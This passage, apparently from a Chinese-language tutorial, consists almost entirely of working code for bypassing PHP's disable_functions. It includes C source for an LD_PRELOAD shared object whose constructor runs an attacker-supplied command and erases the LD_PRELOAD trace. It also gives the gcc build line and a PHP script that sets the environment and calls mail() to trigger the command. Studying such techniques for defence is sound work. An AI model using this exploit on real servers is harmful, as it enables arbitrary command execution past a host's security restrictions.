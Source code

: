 

bypass_disablefunc.c

```
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

接着用以下语句编译C文件为共享对象文件：

```
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

bypass_disablefunc.php，代码和test.php一致：

```php
<?php
    $cmd = "ls";
    $out_path = "/tmp/cmdout";
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = "/var/www/html/bypass_disablefunc.so";
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```
